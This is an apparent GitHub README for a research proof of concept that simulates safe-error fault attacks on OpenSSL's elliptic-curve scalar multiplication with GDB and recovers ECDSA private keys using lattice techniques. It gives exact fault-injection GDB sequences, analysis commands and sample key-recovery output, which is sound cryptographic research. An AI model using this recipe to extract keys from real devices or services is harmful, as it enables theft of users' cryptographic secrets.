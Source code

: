 # Safe-Error Simulations with GDB on ECC in OpenSSL

This repository presents two Safe-Error fault injection attacks on two implementations of the elliptic curve scalar multiplication in OpenSSL.

This is an extension of the work presented at the [SSTIC 2020 conference](https://www.sstic.org/2020/presentation/exploiting_dummy_codes_in_elliptic_curve_cryptography_implementations/) with the original PoC in https://github.com/orangecertcc/ecdummy.
The two major updates are:

* the attack on the efficient window-based scalar multiplication of the elliptic curve `secp256r1` is remade using GDB, the GNU debugger software;
* the Safe-Error attack is also applied on the Montgomery ladder scalar multiplication of OpenSSL.

This work is licensed under the terms of [GNU General Public License v3](https://www.gnu.org/licenses/gpl-3.0.en.html).


## Requirements

The simulation is done with GDB, the GNU debugger, with a program compiled on a Raspberry Pi device, model 4B.
So the GDB scripts might not be compatible with a different setup and it might be necessary to modify the addresses of the faulted instructions.

The private key recovery has a dependency on `fpylll`.
We refer to [https://github.com/fplll/fpylll](https://github.com/fplll/fpylll) for installation of `fpylll` or use a [docker image](https://hub.docker.com/r/fplll/fpylll) for simplicity.


## Content

This repository contains several files used for the simulations aranged in the following folders.

* `binary/`: contains a simple program to be linked to OpenSSL at compilation. It generates ECDSA signatures and appends them to a file;
* `py/`: Python scripts for the analysis of signatures and recovering the private key;
  * `ec.py`: Python implementation of elliptic curves (no dependencies), mainly used to verify signatures and that the recovered private key is correct;
  * `safeerror_analysis.py`: analyzes the signatures and prepares a file for private key recovery;
  * `solve_hnp.py`: solves the Hidden Number Problem with lattices and recover the private key from the results of the analysis made by the previous script;
* `safeerror_wbooth/`: files for the simulation on the efficient window based scalar multiplication of the elliptic curve `secp256r1` in OpenSSL;
* `safeerror_ladder/`: files for the simulation on the Montgomery ladder scalar multiplication of OpenSSL (using the elliptic curve `secp256k1`).


## Program Compilation

This has only been tested on a Raspberry Pi 4B, with the latest Raspberry Pi OS Lite (formerly known as Raspbian) as of 2021.

It is compiled with the following command so it is linked to the OpenSSL cryptographic library `libcrypto`:

```
gcc main.c -lcrypto -o ecdsasign
```

This program takes as input an elliptic curve private key in a PEM format, a message to sign and a file where the signature is appended:

```
./ecdsasign privkey.pem message.txt sig.bin
```

It only runs what is necessary to produce an ECDSA signature which is appended to the file `sig.bin` given as input.


## Simulation 1: Safe-Error on Window-based Scalar Multiplication

The [original PoC](https://github.com/orangecertcc/ecdummy) presented the attack with an altered version of OpenSSL where the fault is manually written in the code.
Here, the fault is simulated using GDB with an arbitrary change in a modular multiplication.

We recall from the paper that the target is the last point addition of the scalar multiplication.
First, we put a breakpoint on the function `ecp_nistz256_point_add_affine` that is only effectice on the last call.
Then, we add a breakpoint on an instruction during the execution of the modular multiplication `ecp_nistz256_mul_mont`, followed by a modification of a register to simulate the fault.

The GDB instructions to achieve that are given below:

```
(gdb) b main
(gdb) r privkey_secp256r1.pem message.txt sig_safeerror_wbooth.bin
(gdb) b *0xb6e94540
(gdb) ignore 2 35
(gdb) c
(gdb) b *0xb6e935a0
(gdb) ignore 3 4
(gdb) c
(gdb) set $r3=0x55adab
(gdb) disable 3
(gdb) c
```

This process is automated with the script `simul_safeerror_wbooth.gdb` that generates 2000 signatures with such a fault made during the last point addition of the scalar multiplication.
It is executed with the following command (from the repository containing the script, the private key file and the message that is signed):

```
gdb ../binary/ecdsasign --command=simul_safeerror_wbooth.gdb
```


## Simulation 2: Safe-Error on the Montgomery Ladder Scalar Multiplication

On each step of the Montgomery ladder algorithm there is a point addition between two points `R0` and `R1` followed by a doubling of `Rb` where `b` is the current bit of the scalar; then the results of these operations replace the old values.
The output of the algorithm is the point in the variable `R0` once each bit of the secret scalar has been processed.

If the last bit is 0, then the result of the addition between `R0`and `R1` is stored on `R1` but it is not used to get the output of the algorithm.
Therefore this last point addition is dummy in this case.
This is also true if the last bits of the scalar are consecutive zeros so the last point additions become dummies.

This algorithm is the default in OpenSSL for most curves that do not have an optimized implementation (or if the optimization is disabled).
As such, we chose to present the attack with the `secp256k1` curve, with a target in the 253rd step of the algorithm so a fault that does not have an impact reveals that the last 4 bits of the scalar are zeros.

A breakpoint is put on the function `ec_GFp_simple_ladder_step` that processes a step of the algorithm (as the name suggests), by ignoring the first 252 calls.
Then, a breakpoint is added on an intrusction of the function `bn_mul8x_mont_neon`, followed by a register modification to simulate the fault.
An arbitrary choice is made so that it impacts the fifth modular multiplication on a ladder step.

The GDB instructions to achieve this are given below:

```
(gdb) b main
(gdb) r privkey_secp256k1.pem message.txt sig_safeerror_ladder.bin
(gdb) b *0xb6e9808c
(gdb) ignore 2 252
(gdb) c
(gdb) b *0xb6e0cf48
(gdb) ignore 3 4
(gdb) c
(gdb) set $q9.u64={0x55adab,0xc0ffee}
(gdb) disable 2
(gdb) disable 3
(gdb) c
```

This is automated in the script `simul_safeerror_ladder.gdb` that generates 1400 signatures with such a fault.
It is executed with the following command (from the folder that contains ):

```
gdb ../binary/ecdsasign --command=simul_safeerror_ladder.gdb
```


## Analysis and Private Key Recovery

Two scripts are provided: a first one for the analysis, and a second one for the private key recovery.


### Analysis

The analysis is done with the Python script `safeerror_analysis.py` which takes as input several arguments:

* `--curve`: name of the curve such as `secp256r1` or `secp256k1`;
* `--pubkey`: filename of the public key;
* `--sig`: filename of the file containing the signatures;
* `--msg`: filename of the message signed (unique for all signatures in this PoC);
* `--lsb`, `--msb` and `--ell`: indicate that either the least (`--lsb`) or the most (`--msb`) significant bits are set to 0; the number of those bits is given by the value following the option `--ell`;
* `--padding`: indicates that the nonce is padded with the group order (for Montgomery ladder for example); this option is not compatible with the option `--msb`;
* `--out`: filename where the results of the analysis are stored.

For example, for the first simulation the command is

```
python3 ../py/safeerror_analysis.py --curve secp256r1 --pubkey pubkey_secp256r1.pem --sig sig_safeerror_wbooth.bin --msg message.txt --msb --ell 5 --out results_safeerror_wbooth.txt
```

For the second simulation on Montgomery ladder, the command is

```
python3 ../py/safeerror_analysis.py --curve secp256k1 --pubkey pubkey_secp256k1.pem --sig sig_safeerror_ladder.bin --msg message.txt --lsb --ell 4 --padding --out results_safeerror_ladder.txt
```


### Private Key Recovery

The results stored on the output file of the first script define an instance of the Hidden Number Problem that is solved using lattices thanks to the second script.

The script is executed by the following command:

```
python3 ../py/solve_hnp.py results_safeerror_wbooth.txt
```

The output using the sample data provided in the folder:

```
Elliptic curve: secp256r1
    Public key: (0xbcffc6ff65f78a770f264e561e3fde75578694dba72d0ad0a2b3137b4e249047,
                 0x362937b3fa35c80165e611f0ca3bb27639d2a6ec4a42804aa39e0139388fef38)
HNP with 52 signatures...
HNP with 53 signatures...
HNP with 54 signatures...
HNP with 55 signatures...
Private key: 11510792401945587236512468312224202364397116824425737824991017224497705403905
```

With the sample from the simulation on Montgomery ladder, the private key is recovered from the first 69 signatures.
